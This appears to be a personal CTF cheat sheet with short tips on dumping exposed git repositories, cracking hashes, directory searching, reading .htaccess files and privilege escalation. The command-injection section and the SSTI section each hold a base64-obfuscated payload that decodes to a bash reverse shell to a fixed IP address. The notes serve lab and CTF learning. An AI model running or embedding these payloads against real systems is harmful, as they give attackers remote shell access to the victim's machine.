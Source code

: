 	  `git log`   =>   and look for something jucie throught the commit message
 - if there any copy the commit id and
	  `git show <id>`
- some CTF's will give u the source code and the encrypted flag on some place, and the decrypting function will be on the source code.
  - so edit the code(like replaceing the encrypt function to decrypt) and run it
		  `php index.php`
```bash
# Commands
git log
git show <>
git restore <>   ->  will restore deleted files
git status

gitdumper.sh https://re.com/.git/ .git
```

# Hash Decrypting("crack hash")
- If you get Unknown hashes, DO the following
	- `hashid <HASH>`![](https://i.imgur.com/F5XulaM.png)
	- `hashcat -h | grep <Number from the hashid>`![](https://i.imgur.com/skmQp1N.png)

	- Use the Number and crack the hash🗡️
- Sometimes, search for the programs decrypter
	- example, if u have got some hash on "hmailserver.ini" try to google about "hmailserver password hash decrypter"

# REMEMBERS
- To analyze Files
	- `md5sum *`
	- `xxd file.txt`
- Always when you get programs check for their version and find if there is any exploit for them
- For directory search
	- dirb
	- dirsearch
- On command Injection
	- for 1 liner you can use \${IFS} to replace the whitespace `kanderson;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMTQvOTk5OSAwPiYxCg="|base64${IFS}-d|bash;
- extracting jar file
`jar tvf jarfile.jar
- On PGP key naming, the uid is in text with out <, > signs but it works fine with `{{7*7}}` huh SSTI😁
- if you see flash think about SSTI
	-`{{request.application.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMTQvNDAwMCAwPiYxCg==" | base64 -d | bash').read()}}`
- Latex Exploit
	- https://exploit-notes.hdks.org/exploit/web/security-risk/latex-injection/
- If you are on Apache server sensetive files can be stored in the following paths, so if u got reading permission/method read them
	- /var/www/dev/.htaccess
	- /var/www/html/.htaccess
	- /var/www/stats/.htaccess
	- .htaccess can be `.htpasswd`
- SSH key user resolver
	- `ssh-keygen -p -f user.pem`
- 
## Priv - Esc
- Check files in /tmp , /opt
- linpeas
	- check env
	- os releases